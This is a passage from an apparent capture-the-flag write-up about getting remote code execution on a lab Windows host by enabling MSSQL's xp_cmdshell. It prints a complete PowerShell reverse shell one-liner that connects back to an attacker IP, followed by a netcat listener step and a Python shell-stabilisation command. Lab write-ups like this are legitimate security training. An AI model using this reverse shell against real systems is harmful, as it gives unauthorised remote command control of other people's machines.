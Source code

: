 <p align="center"><img src="./Screenshots/3.png" width="550"></p> 

This will allow us to enable xp_cmdshell and gain RCE on the host. Now since we know we can execute code on target lets try to get a reverse shell.
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.xx.x",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
and upload this shell script to target from attacing machine. Start netcat listner on attacking machine to listen.
And Boom!! we have a reverse shell. Stabllize the shell 
```bash
# python3 -c "import pty;pty.spawn("/bin/bash")"
```

Now lets get the user.txt flag on user\desktop and print it.
